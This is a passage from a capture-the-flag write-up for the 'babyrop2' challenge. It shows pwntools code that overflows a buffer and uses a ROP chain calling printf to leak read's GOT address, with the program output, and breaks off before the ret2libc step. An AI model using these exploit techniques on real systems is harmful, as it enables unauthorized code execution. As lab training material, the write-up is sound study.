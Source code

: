 We can use the `"Welcome to the Pwn World again, %s!\n"` string already in the program

Find the address of the string using pwntools:
```python
from pwn import *
elf = ELF('./babyrop2')
main = elf.symbols['main']
read = elf.symbols['got.read']
print hex(next(elf.search('%s')))
```
Output:
```bash
[*] '/root/Downloads/harekaze/rop2/babyrop2'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
0x400790
```
Its at 0x400790

Using ROP library in pwntools we can easily build the payload for `printf`:
```python
from pwn import *
context.clear(arch='amd64')
elf = ELF('./babyrop2')
main = elf.symbols['main']
read_got = elf.symbols['got.read']
format_string = next(elf.search('%s'))
r = ROP(elf)
r.printf(format_string,read_got)			# printf("%s",read_got)
p = elf.process()
p.sendline('a'*40+str(r))
p.interactive()
```
Output:
```
# python solve.py 
[*] '/root/Downloads/harekaze/rop2/babyrop2'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loaded cached gadgets for './babyrop2'
[+] Starting local process '/root/Downloads/harekaze/rop2/babyrop2': pid 12713
[*] Switching to interactive mode
What's your name? Welcome to the Pwn World again, aaaaaaaaaaaaaaaaaaaaaaaaaaaaY!
P\x17���\x7f!
```
Yeah, looks like it prints out the `read` function correctly

Next, we need to calculate the distance between `read` and `system`
